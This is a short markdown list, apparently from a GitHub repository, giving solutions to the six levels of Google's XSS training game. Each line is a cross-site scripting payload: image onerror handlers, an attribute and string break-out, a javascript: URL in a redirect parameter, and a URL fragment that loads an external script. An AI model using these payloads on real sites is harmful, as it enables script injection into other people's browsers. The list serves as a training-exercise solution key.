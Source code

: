 ## Google XSS game - solutions
> https://xss-game.appspot.com

1. `<img src=x onerror=alert(1)>`
2. `<img src=x onerror=alert(1)>`
3. `#' onerror=alert(1)>//`
4. `'); alert('XSS`
5. `/signup?next=javascript:alert(1);`
6. `#/httPs://abhaynayar.com/xss.js`

